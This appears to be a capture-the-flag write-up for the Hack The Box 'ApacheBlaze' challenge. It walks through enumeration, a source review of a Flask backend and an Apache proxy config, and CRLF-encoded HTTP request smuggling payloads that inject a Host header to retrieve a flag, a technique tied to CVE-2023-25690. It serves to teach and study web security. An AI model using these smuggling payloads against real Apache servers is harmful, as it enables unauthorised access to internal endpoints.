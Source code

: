 # Solve HTBank 
#### https://app.hackthebox.com/challenges/ApacheBlaze

![alt text](image.png)

##### By directory brute force with dirsearech
`dirsearch -u http://94.237.58.211:30916/ -x 404,403` 
[05:53:25] 200 -  360B  - /assets/                                          
[05:53:25] 301 -  242B  - /assets  ->  http://94.237.58.211:30916/assets/   
[05:53:27] 200 -    1KB - /cgi-bin/test-cgi                                 
[05:53:27] 200 -  820B  - /cgi-bin/printenv

#### /assets page
![alt text](image-1.png)
#### /cgi-bin/test-cgi page
![alt text](image-2.png)
#### /cgi-bin/printenv page
![alt text](image-3.png)

##### nmap scan 

```
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:fb:f2:1e:09:9a:a3:10:c7:f3:18:3f:18:9d:4a:76 (RSA)
|   256 15:53:99:6a:83:03:96:0b:b7:82:44:7d:34:f0:7d:69 (ECDSA)
|_  256 46:2f:3e:5e:ee:65:be:17:7c:3b:51:02:5c:51:83:06 (ED25519)

30916/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache
|_http-title: ApacheBlaze
```
## Review the sorce code

### Analyze fetchAPI.js
*you can find the file in [fetchAPI.js](src/challenge/frontend/src/assets/js/fetchAPI.js)*

The **fetchAPI.js** code can be broken down as follows:

1. The code waits for the document to be ready using `$(document).ready(function() {...})`.

2. It attaches a click event handler to links (`<a>`) inside elements with the class "game" using `$(".game a").click(function(event) {...})`.

3. Inside the click event handler:
   - `event.preventDefault()` **prevents the default behavior** of the clicked link, which is typically navigating to a new page.

   - `var gameName = $(this).attr("div")` retrieves the value of the "div" attribute of the clicked link. 
     - `$(this)` refers to the clicked link.
     - `.attr("div")` is used to get the value of the "div" attribute.

4. An AJAX request is made to the "/api/games/" endpoint with the obtained `gameName` using `$.ajax({...})`.

5. The `success` callback function handles a successful response by updating the content of the element with ID "gameplayresults" with the received message.

6. The `error` callback function handles an error in fetching API data by updating the content of the same element with an error message.

### Analyze app.py
*you can find the file in [app.py](src/challenge/backend/src/app.py)*

### Notice that we find a suspicious function in the backend code

``` python
elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200

```
The code checks if the user choose `click_topia` Game and the request has `X-Forwarded-Host` header with value `dev.apacheblaze.local` it return the flag as a Json.

#### HTTP header manipulation with `X-Forwarded-Host`
![alt text](image-4.png)
We got 408 Request Timeout.

##### Try POST request
![alt text](image-5.png)
We got 408 Request Timeout.
*Note from code `@app.route('/', methods=['GET'])` ONLY `GET` method is allowed*

### Analyze httpd.conf (This Apache HTTP Server configuration)
*you can find the file in [httpd.conf](src/conf/httpd.conf)*

This configuration sets up a reverse proxy on port `1337`, forwarding requests to a backend server on port `8080`, which is load-balanced across two backend servers (`8081` and `8082`). The rewrite rule in the first virtual host handles requests to `/api/games/` by forwarding them to the backend server with the appropriate query parameter. The load balancer in the second virtual host distributes requests among the specified backend servers.


### Mod Proxy module
`mod_proxy` is an Apache module that provides support for proxying requests. It enables the Apache HTTP Server to act as a **gateway** or **reverse proxy** (a reverse proxy manages incoming requests from clients and forwards them to backend servers). This module is often used to forward requests from Apache to another web server, application server, or backend server.

## Try to Http request smuggling via header injection
### Normal request
```
GET /api/games/click_topia HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/

```
we can hide a second request in the first we sent to the target (with the `\r\n\r` splitting method). That enable us to send the request directly from the **reverse proxy**.
### Try to inject with X-Forwarded-Host
```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aX-Forwarded-Host:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
Note: `%0A` for newline `\n` and `%0D` for carriage return `\r`
So `\r\n ` ->  `%0d%0a` `\r\n\r`  ->  `%0d%0a%0d`

![alt text](image-6.png)
The server Can't understand X-Forwarded-Host header 
### Try to inject with Host

```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```

![alt text](image-7.png)
### Resorces
[HTTP Request Smuggling attack ](https://portswigger.net/web-security/request-smuggling)
[Http request smuggling via header injection](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
[CVE 2023 25690 POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
[URL encoding of newline](https://stackoverflow.com/questions/3871729/transmitting-newline-character-n)


>Find More on ==> github.com/MedhatHassan
